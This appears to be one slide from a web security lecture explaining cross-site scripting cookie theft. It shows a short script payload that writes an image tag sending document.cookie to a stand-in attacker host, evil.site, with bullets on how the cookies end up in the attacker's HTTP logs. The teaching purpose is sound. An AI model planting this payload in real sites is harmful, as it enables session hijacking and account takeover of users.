

# Reading Cookies
Code to steal cookies
<script>document.write('
<img src="http://evil.site/'+document.cookie+'">')
</script>
Creates an image tag on the page
Sends a request to our site that includes cookies from the vulnerable site
Our HTTP logs includes this information